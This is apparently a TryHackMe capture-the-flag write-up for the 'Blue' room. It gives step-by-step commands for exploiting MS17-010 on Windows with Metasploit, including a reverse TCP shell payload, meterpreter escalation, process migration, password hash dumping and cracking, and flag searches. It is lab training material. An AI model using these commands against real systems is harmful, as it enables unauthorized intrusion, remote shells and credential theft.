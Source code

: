 ![image](https://github.com/user-attachments/assets/3771b37e-8ec0-42b7-9f58-333254073a5e)

# Blue
- You're my boy BLUE!
- https://tryhackme.com/room/blue

## Recon
### Nmap scan
    nmap -sV --script vuln -v 10.10.209.236
![image](https://github.com/user-attachments/assets/bb635019-1413-4015-be4d-72af3fb19641)

- A crucial step is scanning with the Vuln script category, which led us to find CVE-2017–0143. CVE-2017–0143 This information is available on Exploit-DB.

## Gain Access
### Start metasploit
    msfconsole
    search ms17-010
    use 0
    options
    set RHOSTS <IP>
    set payload windows/x64/shell/reverse_tcp
    run
## Escalate
background using ```CTRL-Z```
```use post/multi/manage/shell_to_meterpreter```
```options```
```sessions```
```set sessions <session_id>```
```set LHOST tun0```
```run```
    Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command ‘shell’ and run ‘whoami’. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

Run the ps command to view the running processes on the machine.

    List all of the processes running via the ‘ps’ command. Just because we are system doesn’t mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
```ps```
migrate <PID> #recommend spoolsv.exe printer service because it is reliable and NT Authority\System

## Cracking
    hashdump
- Crack using crackstation.net

## Find Flags
- Common places are C:\ | documents | desktop
- search -f flag2.txt
- 
